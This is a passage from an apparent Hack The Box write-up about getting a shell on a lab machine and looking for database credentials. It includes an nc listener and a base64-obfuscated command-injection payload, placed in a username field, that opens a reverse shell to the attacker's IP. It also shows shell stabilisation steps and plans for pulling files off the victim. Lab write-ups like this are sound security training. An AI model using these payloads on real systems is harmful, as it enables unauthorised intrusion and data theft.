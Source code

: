 ![Pasted image 20240302152518](https://github.com/iammR0OT/HTB/assets/74102381/bd7c46b6-838a-4f98-9c39-a322df3eb982)

Let's get a shell on the box. I mostly use [revshells.com](https://www.revshells.com/) for reverse shell payloads. 
Start a listener on your attacking machine to receive the shell.

```bash
$ nc -lvnp 90
```

- **-l** for listener
- **-v** for verbosity
- **-n** for numeric IP address, no DNS name.
- **-p** for port number

![Pasted image 20240302153838](https://github.com/iammR0OT/HTB/assets/74102381/a8d68742-13de-419f-8052-6752fc4584b3)

Paste the payload into the username parameter. The payload will be:

```bash
$(echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMy85MCAwPiYx"|base64${IFS}-d|bash)
```

![Pasted image 20240302164429](https://github.com/iammR0OT/HTB/assets/74102381/51a1c725-e25d-484c-a0f6-7a613a32ae7c)

And we got a shell back within no time.

![Pasted image 20240302153935](https://github.com/iammR0OT/HTB/assets/74102381/45c9fac6-66bf-4751-b7b3-fbc0e5ac41df)

Let's make this shell fully interactive and stable using:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'  # for interactive shell
$ export TERM=xterm # to sets the terminal emulator to linux
$ CTRL+Z   # to background the process
$ stty raw -echo;fg   # to make shell stable
```

![Pasted image 20240302154713](https://github.com/iammR0OT/HTB/assets/74102381/d231406b-829a-4311-bce8-ef779085a858)

### Shell as Josh

So there are basically two users on the machine, **josh** and **root**. Also, there is a **PostgreSQL** database running on the machine. If somehow we manage to obtain the credentials of the database, we could find juicy information there.

![Pasted image 20240302154846](https://github.com/iammR0OT/HTB/assets/74102381/bb1e6f29-9262-4a28-86f1-3e2f3c6d434e)

There is a `cloudhosting-0.0.1.jar` file present in the `/app` directory. Let's download it to our local machine. Since Python is present on the machine, I will run a Python server on the victim machine to download the files.

![Pasted image 20240302155213](https://github.com/iammR0OT/HTB/assets/74102381/b54c9692-04b0-4b2f-bdb1-082d888c8dbb)

The file has been successfully downloaded to our attacking machine. Let's analyze it now.
